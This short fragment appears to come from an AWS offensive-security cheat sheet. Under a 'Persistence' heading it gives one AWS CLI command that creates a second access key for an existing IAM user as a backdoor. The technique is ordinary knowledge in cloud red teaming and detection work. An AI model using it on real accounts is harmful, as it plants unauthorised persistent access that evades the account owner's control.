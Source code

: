 # Persistence
#### Backdoor account with second set of access keys
```
aws iam create-access-key --user-name <username>
```
